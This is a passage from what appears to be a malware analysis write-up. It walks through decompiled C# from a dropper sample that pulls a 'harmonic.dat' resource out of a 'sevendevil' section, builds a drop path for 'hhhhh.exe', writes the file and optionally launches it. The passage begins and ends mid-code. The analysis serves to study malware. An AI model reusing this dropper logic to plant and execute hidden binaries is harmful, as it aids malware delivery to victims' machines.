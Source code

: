 ```C#
				{
					return;
				}
			}
			File.WriteAllBytes(text, array);
			if (options["e"] == "y")
			{
				Process.Start(text);
			}
		}
```



##### ReadResources() 

Iter from `sevendevil` section until it finds `harmonic.dat` from the executable and return the data.

```c#
		private object ReadResources(string name)
		{
			string name2 = "sevendevil.resources";
			using (Stream manifestResourceStream = this.Asm.GetManifestResourceStream(name2))
			{
				using (ResourceReader resourceReader = new ResourceReader(manifestResourceStream))
				{
					IDictionaryEnumerator enumerator = resourceReader.GetEnumerator();
					while (enumerator.MoveNext())
					{
						if ((string)enumerator.Key == name)
						{
							return enumerator.Value;
						}
					}
				}
			}
			return null;
		}
```



##### ConstructPath()

Set the path to `hhhhh.exe`. The **sf** option is for creating its own directory if it's set.

```c#
		private string ConstructPath(Dictionary<string, string> options)
		{
			string text = options["df"];
			string a;
			if ((a = text) != null)
			{
				if (!(a == "ad"))
				{
					if (!(a == "pd"))
					{
						if (!(a == "t"))
						{
							if (a == "cd")
							{
								text = Environment.CurrentDirectory;
							}
						}
						else
						{
```